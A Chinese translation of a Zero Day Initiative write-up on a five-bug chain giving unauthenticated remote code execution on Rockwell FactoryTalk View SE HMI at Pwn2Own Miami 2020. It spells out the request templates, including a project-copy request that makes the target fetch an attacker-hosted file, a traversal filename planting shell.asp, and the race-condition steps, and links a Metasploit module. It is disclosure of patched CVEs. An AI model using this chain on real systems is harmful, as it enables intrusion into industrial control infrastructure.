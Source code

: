 > 原文链接: https://www.anquanke.com//post/id/212531 


# Rockwell工控软件的5个组合漏洞导致RCE


                                阅读量   
                                **170374**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者zerodayinitiative，文章来源：zerodayinitiative.com
                                <br>原文地址：[https://www.zerodayinitiative.com/blog/2020/7/22/chaining-5-bugs-for-code-execution-on-the-rockwell-factorytalk-hmi-at-pwn2own-miami](https://www.zerodayinitiative.com/blog/2020/7/22/chaining-5-bugs-for-code-execution-on-the-rockwell-factorytalk-hmi-at-pwn2own-miami)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t016f59e0d8ad1f4130.jpg)](https://p2.ssl.qhimg.com/t016f59e0d8ad1f4130.jpg)



## 前言

2020年1月份，S4首次举办了在迈阿密的Pwn2Own比赛，在针对工业控制系统（ICS）产品的比赛中，Pedro Ribeiro和Radek Domanski的团队利用5个组合漏洞，在Rockwell的工控人机交互软件上(FactoryTalk View SE HMI)实现了RCE，并赢得了25,000美元的奖金和25个Pwn积分。现在厂商已经发布补丁，并且提供了writeup,演示视频和Metasploit模块。特别感谢Rockwell为本次比赛提供的虚拟机环境。



## 正文

本篇文章的主要内容是Pedro Ribeiro（[@pedrib1337](https://github.com/pedrib1337)）和Radek Domanski（[@RabbitPro](https://github.com/RabbitPro)）发现的一系列漏洞。这些漏洞已经在一月份ZDI的Pwn2Own迈阿密2020比赛中使用。Rockwell FactoryTalk View SE人机界面（HMI）版本11.00.00.230 中存在上述漏洞。较旧的版本也可能会被利用，但是Rockwell尚未确认。

利用效果：无需身份认证即可在安装IIS的Windows主机上实现远程代码执行。攻击依赖于五个独立漏洞的组合。第一个漏洞是未经身份验证的项目复制请求，第二个漏洞是目录遍历，第三个漏洞是竞争条件。为了在所有目标上实现完全的远程代码执行，还利用了两个信息泄漏漏洞。

本文根据组合漏洞利用的先后顺序，分别详细阐述各个漏洞的细节，然后将他们的组合利用方式通过下面的视频展现出来：

[![](https://p4.ssl.qhimg.com/t01695c89f40519aadb.png)](https://p4.ssl.qhimg.com/t01695c89f40519aadb.png)

(视频地址：[https://youtu.be/PIid0Ql_KmU）](https://youtu.be/PIid0Ql_KmU%EF%BC%89)

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E7%BB%86%E8%8A%82"></a>漏洞细节

FactoryTalk View SE在Microsoft IIS上开放了几个REST请求路径，这些请求路径可以通过远程访问。其中一个路径`/rsviewse/hmi_isapi.dll`，它是一个ISAPI DLL处理程序，主要执行一些处理FactoryTalk项目管理的工作。

由于本文描述的漏洞都是使用纯黑盒的渗透测试方法发现的，所以没有必要对ISAPI DLL二进制程序进行逆向分析。

#### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E1%EF%BC%9A%E6%9C%AA%E7%BB%8F%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%9A%84%E9%A1%B9%E7%9B%AE%E5%A4%8D%E5%88%B6%E8%AF%B7%E6%B1%82"></a>漏洞1：未经身份验证的项目复制请求

`hmi_isapi.dll`的一个操作是`StartRemoteProjectCopy`,可以通过`HTTP GET`请求来启动此操作：

```
http：// &lt;TARGET&gt; /rsviewse/hmi_isapi.dllStartRemoteProjectCopy&amp; &lt;PROJECT_NAME&gt;＆&lt;RANDOM_STRING&gt;＆&lt;LHOST&gt;
```

其中：
- &lt;TARGET&gt;指运行FactoryTalk View SE的服务器。
- &lt;PROJECT_NAME&gt;必须是服务器上的现有项目。
- &lt;RANDOM_STRING&gt;可以是任何随机字符串。
- &lt;LHOST&gt;是攻击者的主机IP。
发送这个请求后，如果&lt;TARGET&gt;主机上存在&lt;PROJECT_NAME&gt;，&lt;TARGET&gt;就会向&lt;LHOST&gt;发出`HTTP GET`请求：

```
http：// &lt;LHOST&gt; /rsviewse/hmi_isapi.dll?BackupHMI&amp; &lt;RNA_ADDRESS&gt;＆&lt;PROJECT_NAME&gt;＆1＆1
```

&lt;RNA_ADDRESS&gt;是FactoryTalk View SE使用的内网地址。这与我们的漏洞利用没有关系，因此忽略它。

而且&lt;LHOST&gt;可以完全忽略请求内容，攻击者只需要返回如下响应

```
HTTP/1.1 OK 
(...) 
&lt;FILENAME&gt;
```

收到此响应后，&lt;TARGET&gt;将向&lt;LHOST&gt;发送`HTTP GET`请求：

```
http：// &lt;LHOST&gt; / rsviewse / _bak / &lt;FILENAME&gt;
```

&lt;LHOST&gt;可以向&lt;TARGET&gt;发送文件&lt;FILENAME&gt;，文件内容可以为任意值`&lt;FILE_DATA&gt;`

&lt;TARGET&gt;随后将向地址&lt;FACTORYTALK_HOME&gt;_bak\&lt;FILENAME&gt;写入&lt;FILE_DATA&gt;，然后根据文件内容执行某些操作(由于这些操作和漏洞利用无关，因此没有具体分析)，最后删除&lt;FILENAME&gt;文件。所有这些动作都在不到一秒钟的时间内发生。

&lt;FACTORYTALK_HOME&gt;FactoryTalk View SE 的默认值为C:\Users\Public\Documents\RSView Enterprise。

#### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E2%EF%BC%9A%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86"></a>漏洞2：目录遍历

发现了第一个漏洞之后，下一个目标就是获得远程代码执行。虽然文件名和文件的内容是完全可控的，但是还不能实现远程代码执行。

实现RCE的最简单方法是将带有ASP或ASPX代码的文件写入IIS目录。利用目录遍历漏洞，将&lt;FILENAME&gt;设置为：

```
../SE/HMI项目/shell.asp
```

&lt;TARGET&gt;就会将文件写入&lt;FACTORYTALK_HOME&gt;\SE\HMI Projects\shell.asp。由于这个路径在IIS中配置为虚拟路径，这个ASP文件一旦被访问就会立即执行。

#### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E3%EF%BC%9A%E7%AB%9E%E4%BA%89%E6%9D%A1%E4%BB%B6"></a>漏洞3：竞争条件

上面提到&lt;FILENAME&gt;在被创建的1秒钟之内就会被删除。为了能够执行ASP代码，需要在写入文件后立即对其进行访问。

这是一个典型的竞争条件漏洞，将在下一节中说明利用方式。

#### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E4%E5%92%8C5%EF%BC%9AGetHMIProjects%E5%92%8CGetHMIProjectPaths%E7%9A%84%E4%BF%A1%E6%81%AF%E6%B3%84%E6%BC%8F"></a>漏洞4和5：GetHMIProjects和GetHMIProjectPaths的信息泄漏

为了实现可靠的利用，有必要知道&lt;PROJECT_NAME&gt;在FactoryTalk View SE服务器上的路径。这些步骤对于PoC不是必需的，但对于武器化的利用还是必要的。厂商提供的Metasploit模块确实实现了这些步骤。<br>
通过以下请求，攻击者可获得项目列表

```
http：// &lt;TARGET&gt; /rsviewse/hmi_isapi.dll?GetHMIProjects
```

FactoryTalk View SE将响应：

```
&lt;?xml version="1.0"?&gt; 

&lt;!--Generated (Sat Jan 18 04:49:31 2020) by RSView ISAPI Server, Version 11.00.00.230, on Computer: EWS--&gt; 

&lt;HMIProjects&gt; 

    &lt;HMIProject Name="FTViewDemo_HMI" IsWatcom="0" IsWow64="1" /&gt; 

&lt;/HMIProjects&gt;
```

在XML中包含了项目名称，可以在随后的请求中使用它来显示项目的路径：

```
http：// &lt;TARGET&gt; /rsviewse/hmi_isapi.dll?GetHMIProjectPath&amp; &lt;PROJECT_NAME&gt;
```

这个响应将包含项目的完整路径：

```
C：\ Users \ Public \ Documents \ RSView Enterprise \ SE \ HMI Projects \ FTViewDemo_HMI
```

这个返回路径可以用来计算正确的路径穿越值，然后访问ASP文件实现RCE。

### <a class="reference-link" name="%E7%BB%84%E5%90%88%E5%88%A9%E7%94%A8"></a>组合利用

实现RCE的流程：<br>
1-获取服务器上的项目列表。<br>
2-提取项目的实际路径以计算正确的目录遍历路径。<br>
3-启动一个HTTP服务器，该服务器负责响应FactoryTalk的请求。<br>
4-启动一个线程，该线程不断尝试访问恶意创建的ASP文件路径。<br>
5-发出请求触发项目复制。<br>
6-攻击者可以“赢得”竞争条件，并以IIS用户身份执行ASP代码。

### <a class="reference-link" name="Metasploit%E6%A8%A1%E5%9D%97"></a>Metasploit模块

对那些想测试自己系统的用户，我们提供了可以利用的Metasploit模块。利用完整步骤可以在上面的视频中看到实际操作。可以在[此处](https://github.com/thezdi/PoC/blob/master/CVE-2020-12027/rockwell_factorytalkse_rce.rb)访问该模块。



## 结论

我们希望您喜欢我们在Pwn2Own 迈阿密中的有关漏洞的writeup。罗克韦尔（Rockwell）在今年6月下旬修复了这些漏洞，并分配了漏洞编号CVE-2020-12027，CVE-2020-12028和CVE-2020-12029。但是安全公告似乎已移至需要登录才能阅读的位置。您需要创建一个帐户来访问其安全公告。该帐户是免费创建的。如果您是罗克韦尔的客户，我们强烈建议您与售后支持联系，以确保您部署了最新版本的FactoryTalk View SE
